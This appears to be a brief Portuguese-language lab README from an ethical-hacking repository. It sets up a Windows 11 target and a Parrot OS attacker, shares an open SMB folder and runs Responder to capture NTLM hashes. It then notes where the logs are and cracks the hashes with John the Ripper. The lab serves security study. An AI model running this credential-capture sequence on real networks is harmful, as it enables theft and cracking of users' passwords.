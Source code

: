 ![image](https://github.com/pinhers/Ethical-Hacking/assets/145346889/40e3de55-1c76-484c-9af9-4a0b68053ba8)

### Imagens e Configurações de Instâncias

- **win11 c5large 65gb**
- **Parrot OS c5 65gb**

comando para partilhar pasta
sudo net usershare add sharefolder /home/parrot/sharefolder "A secret folder shared via SMB" everyone:F guest_ok=y
executar
responder -I ens5

no win11 run: \\ip privado do parrot
tentar meter a pass vai dar erro e aparace o hash no parrot
![image](https://github.com/pinhers/Ethical-Hacking/assets/145346889/3dfce7ff-cc32-45aa-870b-d50793e12673)


parrot-logs:
/usr/share/responder/logs
john SMB-xxxxxxxx- TAB

troubleshot:
sudo lsof -i :445
sudo systemctl stop smbd
